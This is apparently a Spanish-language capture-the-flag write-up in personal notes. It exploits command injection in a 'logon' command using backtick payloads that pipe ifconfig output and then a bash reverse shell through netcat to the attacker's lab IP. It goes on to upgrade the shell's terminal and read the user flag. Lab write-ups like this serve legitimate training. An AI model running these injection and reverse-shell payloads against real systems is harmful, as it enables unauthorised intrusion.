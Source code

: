 Podemos probar tambien si estamos dentro de la maquina que queremos atacar con este comando:
```python
logon "/=`nohup ifcofig | nc 10.10.14.48 4567`"
```

nos ponemos en escucha por tanto en el peurto 4567:
```python
nc -nlvp 4567
```

Como vemos que si que obtenemos la misma IP y por tanto es la maquina que queremos atacar directamente pasamos una [[reverse shell]]: 
Nos ponemos en escucha con [[netcat]]
```python
nc -nlvp 4567
```

Y ponemos:
```python
logon "/=`nohup nc -e /bin/bash 10.10.14.48 4567`"
```

Y en la pestaña de la Reverse shell obtenemos acceso a la maquina.
Como la consola es mala nos la vamos a mejorar lanzando una pseudo consola:

```python
script /dev/null -c bash
```

La consola mejora pero no podemos hacer `ctrl + L`  y si hacemos `ctrl + C` nos cargamos la [[Reverse shell]]
si ponemos :

```python
echo $SHELL
```
Observamos la variable de entorno shell que es correcta pero la variable de entorno TERM no:
```python
echo $TERM
```

Ahora lo vamos a cambiar.
Nos salimos con `ctrl + Z`
Y ponemos el siguiente comando.
Siempre que ganamos acceso a un sistema ponemos este comando
```python
stty raw -echo; fg
```

==Y aunque no nos aparezca para escribir ponemos==
```python
reset xterm
```

Y ya tenemos nuestra Reverse shell con la posibilidad de hacer `ctrl + C`

Ahora navegamos a /home/makis y ahi obtenemos la user flag
Tambien podemos obtenerla directamente, aunque no siempre funciona, con:
```python
find \-name user.txt | xargs cat
```

